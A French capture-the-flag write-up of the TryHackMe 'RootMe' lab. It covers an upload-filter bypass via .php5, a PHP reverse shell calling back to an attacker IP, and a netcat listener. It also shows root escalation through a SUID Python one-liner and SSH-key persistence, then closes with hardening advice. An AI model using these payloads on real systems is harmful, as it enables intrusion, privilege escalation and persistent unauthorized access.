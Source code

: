 # TryHackMe – RootMe


La room **RootMe** est une machine d’initiation sur [TryHackMe](https://tryhackme.com/room/rootme) destinée à illustrer l’exploitation d’un formulaire d’upload vulnérable, suivie d’une élévation de privilèges simple. L’objectif est de récupérer :

1. le flag utilisateur (`user.txt`) ;
2. le flag root (`root.txt`).

---

## Étape 1 : Reconnaissance

### Ciblage de la machine

```text
IP cible : 10.10.104.124
```

Seul le port 80 (HTTP) est accessible.

### Analyse Web

La page d’accueil propose un **téléversement de fichiers**. Toute tentative d’upload d’un fichier `.php` est refusée :

```
PHP não é permitido!
```

---

## Étape 2 : Accès initial via téléversement de fichier

### Vulnérabilité identifiée

L’extension `.php5` est toujours interprétée par Apache comme du PHP. L’upload d’un web‑shell `shell.php5` est donc autorisé :

```php
<?php
$sock = fsockopen('10.8.123.123', 4444);
exec('/bin/sh -i <&3 >&3 2>&3');
?>
```

Le fichier est ensuite accessible à l’URL :

```
http://10.10.104.124/uploads/shell.php5
```

### Exécution du shell

Côté attaquant :

```bash
rlwrap nc -lvnp 4444
```

Le chargement de l’URL déclenche un **reverse shell** sous `www‑data` et permet de lire `user.txt`.

---

## Étape 3 : Escalade de privilèges

### Recherche SUID

```bash
find / -perm -4000 -type f 2>/dev/null
```

Résultat pertinent :

```
/usr/bin/python
```

### Exploitation Python SUID

Le binaire Python possède le bit SUID. Il est donc possible de se faire passer root :

```bash
python -c 'import os,pty; os.setuid(0); os.system("/bin/bash")'
```

```bash
root@rootme:~# whoami
root
```

---

## Étape 4 : Persistance via SSH

1. Générer une paire de clés locale :

   ```bash
   ssh-keygen -t ed25519
   ```

2. Ajouter la clé publique dans `/root/.ssh/authorized_keys` sur la machine cible.

3. Vérifier l’accès :

   ```bash
   ssh -i id_ed25519 root@10.10.104.124
   ```

---

## Résultat final

```bash
root@rootme:~# cat /root/root.txt
THM{<redacted>}
```

---

## Recommandations de sécurité

1. **Filtrage strict des uploads** : liste blanche des extensions et analyse du contenu.
2. **Désactivation des extensions PHP secondaires** dans la configuration Apache.
3. **Réduction de surface SUID** : retirer le bit SUID des interpréteurs non essentiels.
4. **Journalisation et alertes** sur les téléversements et l’exécution de fichiers dans les répertoires web.

---

## Conclusion

Un simple contournement d’upload et une mauvaise gestion des SUID suffisent à compromettre totalement le système. Le durcissement de la configuration Apache et une politique de privilèges minimale sont indispensables.

---

**Auteur :** Saad Idrissi

